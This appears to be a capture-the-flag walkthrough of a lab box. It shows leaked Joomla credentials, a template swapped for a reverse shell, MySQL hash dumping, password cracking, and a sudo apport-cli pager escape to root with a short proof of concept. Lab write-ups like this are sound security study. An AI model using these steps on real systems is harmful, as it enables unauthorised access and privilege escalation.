 ```json
      "attributes": {
        "dbsslverifyservercert": false,
        "id": 224
      }
    }
  ],
  "meta": {
    "total-pages": 4
  }
}

```

Ruby exploit is available at https://www.exploit-db.com/exploits/51334

With combination `lewis:P4ntherg0t1n5r3c0n##` we got into the /administrator and there we find out the PHP version is 7.4.3. I've changed the content of Template for `error.php` to a reverse shell script that got my foothold on the box as `www-data`.

In the `/home` directory is a user `logan` which we have no access to. Upon the inspection of `ss -tuln` there is open port 3306 for mysql database and fortunately the same credentials from Joomla `lewis` account are used for the database.

```
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
```

John cracks the password as `logan:tequieromucho`

# Privilege Escalation

After ssh into the box as `logan` a basic enumeration command `sudo -l` shows possibility to run `/usr/sbin/apport-cli` as `root`. After creating a simple crash file with the `apport-cli` program it was just a matter of reading the report and the program executed the default pager which is LESS.

The apport-cli supports view a crash. These features invoke the default
pager, which is likely to be less, other functions may apply.

It can be used to break out from restricted environments by spawning an
interactive system shell. If the binary is allowed to run as superuser
by sudo, it does not drop the elevated privileges and may be used to
access the file system, escalate or maintain privileged access.

apport-cli should normally not be called with sudo or pkexec. In case it
is called via sudo or pkexec execute `sensible-pager` as the original
user to avoid privilege elevation.

Proof of concept:

```
$ sudo apport-cli -c /var/crash/xxx.crash
[...]
Please choose (S/E/V/K/I/C): v
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
```
